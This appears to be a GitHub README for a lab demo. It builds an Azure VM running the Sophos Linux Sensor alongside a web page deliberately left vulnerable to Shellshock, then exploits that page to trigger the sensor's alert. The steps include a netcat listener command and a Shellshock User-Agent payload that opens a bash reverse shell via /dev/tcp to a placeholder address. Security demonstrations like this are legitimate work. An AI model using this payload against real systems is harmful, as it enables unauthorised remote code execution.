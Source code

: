 # SophosLinuxSensor-Demo

## Author

* Github: [@spence-rat](https://github.com/spence-rat)
* LinkedIn: [@Spencer_Brown](https://www.linkedin.com/in/spencerbrowntx/)

## About
This repository seeks to build an image to Azure via Hashicorp Packer.
When a virtual machine is build off the image, it will already have the Sophos Linux Sensor running, as well as a docker container hosting
a http page vulnerable to shellshock RCE.

## Steps

## Packer
1. Adjust variables for your environment in variables.json
2. Adjust Sophos Central ID in SLS-env.sh
3. packer build --var-file=variables.json ubuntu.json
 
## Azure
1. Create a Network Security Group in Azure via CLI: az network nsg create --resource-group NAME_OF_RESOURCE_GROUP --location REGION --name NAME
2. Allow port 8080: az network nsg rule create --resource-group vse_east_rg --nsg-name opendev_nsg --name allow8080 --protocol tcp --priority 100 --destination-port-range 8080
3. Create the VM: az vm create --resource-group RESOURCE_GROUP --name NAME_OF_VM --admin-username ADMIN_USERNAME --admin-password "ADMIN_PASSWD" --image SLS-ubuntu --vnet-name YOUR_VNET --subnet YOUR_SUBNET --public-ip-sku Basic  --nsg NAME_OF_NSG_FROM_STEP_ONE
4. Record Public IP of VM for next steps.

## In a machine with Burp Suite installed.
1. Set up a reverse listener (ex. nc -lvnp 1234)
2. Set up Burp Suite to intercept requests.
   How to article: https://www.linuxfordevices.com/tutorials/linux/burpsuite-with-firefox
3. Visit http://IPofVM:8080/victim.cgi
4. Adjust user-agent in request to:
   () { ignored;};/bin/bash -i >& /dev/tcp/YOURIPADDRESS/PORTNUMBER 0>&1
   Make sure that the vm in azure can reach your ip address and the port is accessible.
5. Return to your reverse listener - you now have an interactive shell.
6. Login to your Azure VM and type in journalctl -u sophoslinuxsensor
7. The stdout of the Sophos Linux Sensor shows us an alert for Suspicious Interactive Shell!

## Screenshots

Launching Burp Suite Request
![image](https://user-images.githubusercontent.com/82817752/181119596-5b8959e7-62be-4999-872c-a446242ab876.png)






Getting a Reverse Shell
![image](https://user-images.githubusercontent.com/82817752/181119651-42fe7813-1482-4976-aeca-22cfe262dff6.png)






Sophos Linux Sensor Alert
![image](https://user-images.githubusercontent.com/82817752/181119681-eab5fc1c-5f72-49db-88b5-a467c6ba17e2.png)

## Show your support

Give a ⭐️ if this project helped you!

## References
https://github.com/SecurityWeekly/vulhub-lab/tree/master/bash/shellshock
